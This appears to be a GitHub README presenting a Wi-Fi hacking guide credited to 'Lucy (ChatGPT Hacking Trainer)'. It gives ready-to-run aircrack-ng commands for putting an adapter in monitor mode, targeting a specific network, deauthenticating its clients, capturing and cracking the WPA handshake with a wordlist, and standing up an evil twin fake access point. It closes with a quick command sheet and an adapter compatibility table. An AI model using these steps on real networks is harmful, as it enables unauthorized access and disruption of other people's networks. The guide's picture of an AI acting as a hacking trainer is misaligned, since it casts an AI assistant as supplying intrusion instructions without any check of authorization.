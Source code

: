 # 🔓 Wi-Fi Hacking Full Guide – By Lucy (ChatGPT Hacking Trainer)

> 🎯 Interface: `wlan0`
> 📦 Tools: `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`, `airbase-ng`, `wireshark`

---

## 🧪 1. Enable Monitor Mode

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
# Optional rename
sudo ip link set wlan0 name wlan0mon
```

---

## 📡 2. Scan Wi-Fi Networks (New Terminal)

```bash
sudo airodump-ng wlan0mon
```

📜 Note down:

* BSSID → e.g., `AA:A9:15:07:DF:0C`
* Channel → e.g., `6`

---

## 🎯 3. Focus Target Network (New Terminal)

```bash
sudo airodump-ng -w hack1 -c 6 --bssid AA:A9:15:07:DF:0C wlan0mon
```

Keep this running to capture the handshake.

---

## 💣 4. Deauthentication Attack (New Terminal)

```bash
sudo aireplay-ng --deauth 10 -a AA:A9:15:07:DF:0C wlan0mon
```

Sends 10 disconnect packets to force reauthentication.

---

## 🔍 5. Verify Handshake in Wireshark (Optional)

```bash
wireshark hack1-01.cap
```

🔎 Use filter: `eapol`
✅ If shown → handshake captured.

---

## 🔓 6. Crack Wi-Fi Password

```bash
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```

✔️ If password is found, it will display: `KEY FOUND`.

---

## 🧪 Dongle Testing Commands

```bash
sudo iwconfig wlan0 mode monitor         # Monitor Mode
sudo aireplay-ng --test wlan0           # Injection Test
sudo airodump-ng --band a wlan0         # 5 GHz scan
sudo airodump-ng --band bg wlan0        # 2.4 GHz scan
sudo airodump-ng wlan0                  # All bands
```

---

## 🚁 Evil Twin / Fake Access Point

```bash
sudo airbase-ng -a 00:01:02:03:04:05 --essid "Tarun Papa" -c 11 wlan0
```

Use monitor mode dongle to create fake AP.

---

## 🔃 Mode Switch (if needed)

```bash
sudo iwconfig wlan0 mode monitor  # Enable monitor
sudo iwconfig wlan0 mode managed  # Return to normal
```

---

## 🛂 Tested Wi-Fi Dongles – Support Table

| Model            | Chipset          | Monitor | Injection  | AP Mode | Evil Twin | Notes                          |
| ---------------- | ---------------- | ------- | ---------- | ------- | --------- | ------------------------------ |
| Alfa AWUS036NHA  | Atheros AR9271   | ✅       | ✅          | ✅       | ✅         | Most stable, widely supported  |
| Alfa AWUS036ACH  | RTL8812AU        | ✅       | ✅ (driver) | ✅       | ✅         | Dual-band, driver needed       |
| TL-WN722N v1     | Atheros AR9271   | ✅       | ✅          | ✅       | ✅         | Only v1 supports monitor mode  |
| Panda PAU06      | Ralink RT5372    | ✅       | ✅          | ✅       | ✅         | Plug & play                    |
| BrosTrend AC1200 | RTL8812BU        | ✅       | ✅ (driver) | ✅       | ✅         | Works with aircrack-ng driver  |
| TP-Link T2U Plus | RTL8821AU/8811AU | ✅       | ✅ (driver) | ✅       | ✅         | Manual driver install required |

---

## 🔧 TP-Link Archer T2U Plus Driver Installation

```bash
sudo apt update
sudo apt install dkms git build-essential
git clone https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au
sudo make dkms_install
```

👠 Load the driver:

```bash
sudo modprobe 8812au
iwconfig
```

🔬 Test injection:

```bash
sudo aireplay-ng --test wlan0
```

---

## 📟 Terminal Shortcut Cheats

| Action              | Shortcut            |
| ------------------- | ------------------- |
| New Terminal Tab    | Ctrl + Shift + T    |
| New Terminal Window | Ctrl + Alt + T      |
| Kill Process        | Ctrl + C            |
| Scroll Output       | Shift + PageUp/Down |

---

## 📌 Quick Command Sheet

| Task            | Command Example                                                       |
| --------------- | --------------------------------------------------------------------- |
| Monitor Mode    | `sudo airmon-ng start wlan0`                                          |
| Scan Networks   | `sudo airodump-ng wlan0mon`                                           |
| Focus Network   | `sudo airodump-ng -w hack1 -c 6 --bssid AA:A9:15:07:DF:0C wlan0mon`   |
| Deauth Clients  | `sudo aireplay-ng --deauth 10 -a AA:A9:15:07:DF:0C wlan0mon`          |
| Crack Password  | `aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`        |
| Fake AP         | `sudo airbase-ng -a 00:01:02:03:04:05 --essid "FakeName" -c 11 wlan0` |
| Check Handshake | `wireshark hack1-01.cap` → filter: `eapol`                            |

---

✅ *Guide by Lucy – Your Ethical Hacking Trainer*
🧠 *Learn • Practice • Hack Ethically*
